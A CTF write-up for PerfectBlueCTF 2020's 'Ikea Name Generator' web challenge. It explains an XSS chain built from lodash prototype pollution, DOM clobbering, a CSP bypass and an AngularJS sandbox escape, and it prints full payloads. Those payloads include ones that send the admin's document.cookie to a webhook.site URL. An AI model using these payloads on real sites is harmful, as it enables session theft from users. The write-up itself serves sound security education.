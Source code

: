 ```yaml
---
layout: post
title: PerfectBlueCTF - Web Exploitation
excerpt: "This will be a writeup for the challenge Ikea Name Generator from perfect blue ctf. The major components were prototype pollution, DOM clobbering, and angularjs sandbox escape."
categories: [Writeups, PerfectBlueCTF'20]
tags: [web]
---
```


This will be a writeup for the challenge Ikea Name Generator from perfect blue ctf. The major components were prototype pollution, DOM clobbering, and angularjs sandbox escape.

#### Ikea Name Generator
```
What's your IKEA name? Mine is SORPOÄNGEN.

http://ikea-name-generator.chal.perfect.blue/

By: corb3nik
```

When first looking at the site it is clear that we need to get XSS on the admin and steal their cookies. Let's look at each component of the website and analyze them for vulnerabilities.

Starting off with the main page we see a few important things. There is a version of lodash (4.17.2) being used which is vulnerable to prototype pollution. In addition, we see that the config is loaded from a script tag and there there is an app.js which houses the main application logic.

Looking at app.js, we see that it uses `_.merge` with an object so we immedietly know that prototype pollution is what we are trying to do. Following the `generateName()` function, we see that the result of `JSON.parse()` on what is returned by the `CONFIG.url` is what is actually passed into the vulnerable function. We will use this vulnerability later but let's continue to audit the script. We see that there is a function called `createFromObject()` which returns a span element where the properties are set using the following for loop.
```javascript
  for (var key in obj) {
    el[key] = obj[key]
  }
```
This is special because the for loop will actually list properties that are under `__proto__` but not by default as keys. With this, we will be able to arbitrarily set a property of the span element if we manage to trigger the prototype pollution.

The first payload that comes to mind is something like the following where we use the `_.merge` in order to cause a prototype pollution and then set the innerHTML of the span.
```
{"__proto__":{"key":"value"}}
```
However, being able to set the innerHTML doesn't mean we just win as the contents of the span are actually put in an iframe under the `sandbox.php` url. Let's first look at how to trigger the prototype pollution then how to escape the sandbox.

We now know some of the vulnerabilities within the app.js we have to actually chain it together. This was much tougher than I orignally thought because of the CSP. One important thing to notice is that the name is actually inserted onto the page by what I presume to be the PHP. This actaully gives us the ability to put arbitrary tags onto the page.

In order to trigger the prototype pollution, my idea was to make the XHR request return the JSON object we would pass to `_.merge`. However, there are some problems we need to face.

First, how can we set the contents of the XHR request? Looking at the code, the URL passed in is from `CONFIG.url`, what if we can use DOM clobbering to set this to what we want? This can be done by injecting the following HTML.
```html
<a id=CONFIG></a><a id=CONFIG name=url href='URL'>
```

However, because the page actually loads a script which explicitly sets the CONFIG variable, we need to figure out a way to somehow disable it and still run app.js. In order to do this, I decided to add the script tag with app.js to the injected HTML. In addition, by using an HTML comment at the end of the injection, I am able to stop the original loading of the config and app.js.
```html
<a id=CONFIG></a><a id=CONFIG name=url href='URL'><script src='app.js'></script><!--
```

The next problem is that the CSP dicates that the connect-src is self. How can we bypass this and make the request use the content we want? The 404.php page let's us set a message and display it on the site. Note that we cannot just place our javascript in this file as it has an explicit mime type of `text/plain`. Our injected HTML should now look something like this.
```html
<a id=CONFIG></a><a id=CONFIG name=url href='/404.php?msg='><script src='app.js'></script><!--
```

By chaining this with the prototype pollution, we are now able to set the innerHTML of the span which is injected into the sandbox.php iframe. Note that below may not work because of encoding issues which I will talk about later.
```html
<a id=CONFIG></a><a id=CONFIG name=url href='/404.php?msg={"__proto__":{"innerHTML":"value"}}'><script src='app.js'></script><!--
```

Great, so now we can set the HTML of on sandbox.php but what is so special about it? I noticed that the CSP on the URL is slightly different, it actually adds angularjs as an allowed script src. This makes it clear that what we need to do is use angularjs to escape the CSP.

After researching online, I found a payload which could be used on a page with angularjs and allow us to execute an `alert(1)` without violating the CSP. Note that I use `/` here instead of space to once again help with encoding issues later on.
```html
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([1],alert)'></div>
```
We can expand on this primitive because alert executes the content within it, for example the code below would cause a redirect to google.
```javascript
alert(window.location.href='https://google.com')
```
We can use this to exfil the cookie by using `navigator.sendBeacon()` like the following.
```html
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([navigator.sendBeacon("https://webhook.site/4c079277-4a93-4a78-aa9e-b71f58ceaa3a",document.cookie)],alert)'></div>
```
The special thing about angularjs is that it is really picky. First, you will see that if any of the quotation marks are changed in the above payload, the payload won't work. This makes it really painful to make sure the encodings are right. In addition, angular won't compile and render content inserted via appendChild or innerHTML. How can we get around this? Once again we call on our best friend iframes and use the srcdoc property. This let's us create a page with any HTML we want that follows the parents CSP. 

Our complete payload which we need to be passed to `_.merge` now looks like something like this. Keep in mind that the quotation marks are all wrong and we will deal with that in the following section.
```html
<a id=CONFIG></a><a id=CONFIG name=url href='/404.php?msg={"__proto__":{"innerHTML":"<iframe srcdoc="<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([navigator.sendBeacon("https://webhook.site/4c079277-4a93-4a78-aa9e-b71f58ceaa3a",document.cookie)],alert)'></div>"></iframe>"}}'><script src='app.js'></script><!--
```
Now all we have to do is chain all the steps together and profit! Or so I thought. This was probably the most painful part of the challenge because the encodings kept being slightly wrong.

The following is the series of steps I used to make my final payload which would be passed as the `name` parameter of the original page then sent to the admin.
```
1. HTML entity encode the payload of innerHTML
2. URL encode msg param where innerHTML is what we just URL encoded in an iframe srcdoc; {"__proto__":{"innerHTML":"<iframe/srcdoc=...></iframe>"}}
3. URL encode everything including the DOM clobber
```

Here is why we need each one. I won't include the actual payloads because they are too long. If you have questions about encoding at any of the steps let me know and I can get them to you somehow. I will link the final name parameter payload though.

The reason for the first step is that entity encoding allows us to easily include some more nested quotation marks as it is set using innerHTML. I believe that my exploit chain uses up to triply nested quotation marks and the fact that angular is so picky about which kind of quotation marks can be used made this extra painful.

The second step was done because once again URL encoding a URL let's us nest one more layer of quotation marks. You should notice that I did everything I could to add more nested quotation marks and it was a matter of trial and error to see what broke the HTML.

The final step is to URL encode everything because it makes sure the page sees exactly what we see instead of having to make sure nothing was encoded improperly.

The final payload which would be attached to the name parameter is the following. It is quite long because of all the encodings but thankfully apache does not reject it. [View it on github here](https://github.com/jimmyl02/ctf-writeups/blob/master/perfectbluectf2020/ikea-name-generator/payload.txt).

